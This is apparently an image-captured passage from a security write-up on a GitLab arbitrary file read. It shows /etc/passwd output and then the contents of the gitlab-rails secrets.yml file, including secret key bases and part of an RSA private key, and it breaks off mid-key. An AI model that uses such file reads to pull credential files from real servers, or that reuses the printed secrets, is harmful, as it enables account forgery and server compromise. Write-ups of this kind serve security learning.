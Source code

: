   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
  systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
  systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
  systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
  _apt:x:104:65534::/nonexistent:/bin/false
  sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
  git:x:998:998::/var/opt/gitlab:/bin/sh
  gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
  gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
  gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
  mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
  registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
  gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
  gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh


3. As we have file read, we can start to look for sensitive files.
After looking around further I find an article, and in the end they mention the location of gitlab-rails secrets file.

> /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
  ----------------------------------------

  # This file is managed by gitlab-ctl. Manual changes will be
  # erased! To change the contents below, edit /etc/gitlab/gitlab.rb
  # and run `sudo gitlab-ctl reconfigure`.

  ---
  production:
    db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
    secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
    otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
    openid_connect_signing_key: |
      -----BEGIN RSA PRIVATE KEY-----
      MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
      YxMJm2+5ZDzaDu5T4xLbcM0BshgOM8N3gMcogz0KUmMD3OGLt90vNBq8Wo/9cSyV
      RnBSnbCl0EzpFeeMBymR8aBm8sRpy7+n9VRawmjX9os25CmBBJB93NnZj8QFJxPt
      u00f71w1pOL+CIEPAgSSZazwI5kfeU9wCvy0Q650ml6nC7lAbiinqQnocvCGbV0O
      aDFmO98dwdJ3wnMTkPAwvJcESa7iRFMSuelgst4xt4a1js1esTvvVHO/fQfHdYo3
      5Y8r9yYeCarBYkFiqPMec8lhrfmviwcTMyK/TBRAkj9wKKXZmm8xyNcEzP5psRAM
      e4RO91xrgQx7ETcBuJm3xnfGxPWvqXjvbl72UNvU9ZXuw6zGaS7fxqf8Oi9u8R4r
      T/5ABWZ1CSucfIySfJJzCK/pUJzRNnjsEgTc0HHmyn0wwSuDp3w8EjLJIl4vWg1Z
      vSCEPzBJXnNqJvIGuWu3kHXONnTq/fHOjgs3cfo0i/eS/9PUMz4R3JO+kccIz4Zx
      NFvKwlJZH/4ldRNyvI32yqhfMUUKVsNGm+7CnJNHm8wG3CMS5Z5+ajIksgEZBW8S
      JosryuUVF3pShOIM+80p5JHdLhJOzsWMwap57AWyBia6erE40DS0e0BrpdsCAwEA
      AQKCAgB5Cxg6BR9/Muq+zoVJsMS3P7/KZ6SiVOo7NpI43muKEvya/tYEvcix6bnX
      YZWPnXfskMhvtTEWj0DFCMkw8Tdx7laOMDWVLBKEp54aF6Rk0hyzT4NaGoy/RQUd
      b/dVTo2AJPJHTjvudSIBYliEsbavekoDBL9ylrzgK5FR2EMbogWQHy4Nmc4zIzyJ
      HlKRMa09ximtgpA+ZwaPcAm+5uyJfcXdBgenXs7I/t9tyf6rBr4/F6dOYgbX3Uik
      kr4rvjg218kTp2HvlY3P15/roac6Q/tQRQ3GnM9nQm9y5SgOBpX8kcDv0IzWa+gt
      +aAMXsrW3IXbhlQafjH4hTAWOme/3gz87piKeSH61BVyW1sFUcuryKqoWPjjqhvA
      hsNiM9AOXumQNNQvVVijJOQuftsSRCLkiik5rC3rv9XvhpJVQoi95ouoBU7aLfI8
      MIkuT+VrXbE7YYEmIaCxoI4+oFx8TPbTTDfbwgW9uETse8S/lOnDwUvb+xenEOku
      r68Bc5Sz21kVb9zGQVD4SrES1+UPCY0zxAwXRur6RfH6np/9gOj7ATUKpNk/583k